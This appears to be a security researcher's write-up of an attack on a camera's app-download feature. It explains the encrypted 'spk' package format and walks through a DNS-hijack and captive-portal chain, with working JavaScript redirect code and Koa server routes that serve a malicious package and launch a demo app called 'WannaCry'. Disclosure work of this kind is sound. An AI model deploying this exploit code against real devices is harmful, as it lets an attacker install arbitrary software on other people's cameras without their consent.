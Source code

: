 ```java
    
    if (ScalarADownloader.this.mDownloadResult == 0) {
        v13 = null;
        ScalarADownloader.this.mDownloadFile = new File(
            ScalarAUtilities.getFilesDir(ScalarADownloader.this), this.getFileNameFromHeader(v15.response, this.getLastPathSegment(v18, v15.locations)));
```

The app has `spk` as the extension. It's an encrypted apk. The magic of first 4 bytes is `1spk`, followed by two DWORDs that are the offset of the encrypted data and the length of the encryption key respectively. This encryption key here is encrypted by RSA (makes no sense of course). The app can be decrypted with this AES key.

## Exploit

1. Set up a hotspot and hijack DNS. Redirect `www.***cameraapps.com` to our webserver.
2. Redirect to `/xpd` in the Wifi portal (`/portal/noauth/blank.htm`).
3. Serve malicious SPK and its CIC checksum under `/xpd`.
4. We can install arbitrary APK as soon as the camera connects to the hotspot.
5. Final trick: export another intent in our WannaCry app so it can be launched by the web.

The frontend code of the exploit:

```js
setTimeout(function() {
  location.href = '/xpd';
  setTimeout(function() {
    location.href = '/launch' // launch WannaCry after installation
  }, 1000 * 20)
}, 1000 * 3)
```

As you can notice, there was also a bug that allows multiple redirect within one page. Here's also the server code:

```js
router.get('/xpd', async (ctx, next) => {
  ctx.type = 'application/x-pmca-wifi-dstartup'
  ctx.body = await readFile('xpd') // call the intent to install app
}).get('/payload', async (ctx, next) => {
  ctx.attachment('app.1.spk')
  await send(ctx, 'app.spk') // WannaCry payload
}).get('/exploit', async (ctx, next) => {
  await send(ctx, 'index.html')
}).get('/portal/noauth/blank.htm', async (ctx, next) => {
  ctx.redirect('/exploit') // the first landing page must be a server-side redirect, otherwise the Wifi portal would think that it's successfully connected
}).get('/launch', async (ctx, next) => {
  ctx.type = 'application/cry'
  ctx.body = ''
})
```

## WannaCry
